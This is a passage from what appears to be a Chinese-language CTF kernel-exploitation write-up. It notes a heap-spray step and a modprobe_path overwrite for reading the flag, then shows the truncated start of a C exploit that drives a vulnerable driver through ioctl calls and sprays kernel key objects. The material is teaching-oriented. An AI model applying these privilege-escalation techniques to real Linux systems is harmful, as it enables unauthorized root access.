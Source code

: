 然后亲试，该步需要堆喷     
### cat flag
用 modprobe_path 把内核任意地址写转为 cat flag，详见 [这篇博客](/_posts/2025-01-20-still-userfaultfd.md)       

## exp
```c
#define _GNU_SOURCE
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <fcntl.h>
#include <stdlib.h>
#include <inttypes.h>
#include <sys/mman.h>
#include <sys/ioctl.h>
#include <sys/syscall.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <linux/if_packet.h>
#include <net/ethernet.h>
#include <net/if.h>
#include <linux/keyctl.h>
#include <fcntl.h>
#include <string.h>
#include <time.h>
#include <sched.h>
#define KEY_SPEC_PROCESS_KEYRING -2 /* - key ID for process-specific keyring */
#define KEYCTL_UPDATE           2   /* update a key */
#define KEYCTL_REVOKE           3   /* revoke a key */
#define KEYCTL_UNLINK           9   /* unlink a key from a keyring */
#define KEYCTL_READ             11  /* read a key or keyring's contents */
#define HEAP_SPRAY_COUNT 200

size_t kernel_offset,kernel_base;
size_t user_cs, user_rflags, user_sp, user_ss;
int f1;
char c[48];
void** ptr;
char tmp_x[0x10];
unsigned long long tmp_buf[0x10];
char tmp_buf1[0xb010];
int test_id[HEAP_SPRAY_COUNT+0x10];
size_t page_addresses[216];
// vuln driver operations
void delete(void** ptr){
    ioctl(f1,48,ptr);
}
void edit(void** ptr){
    ioctl(f1,80,ptr);
}
void create(void** ptr){
    ioctl(f1,32,ptr);
}
// user key payload operations 
int key_alloc(char *description, void *payload, size_t plen)
{
    return syscall(__NR_add_key, "user", description, payload, plen, 
                   KEY_SPEC_PROCESS_KEYRING);
}

int key_update(int keyid, void *payload, size_t plen)
{
```
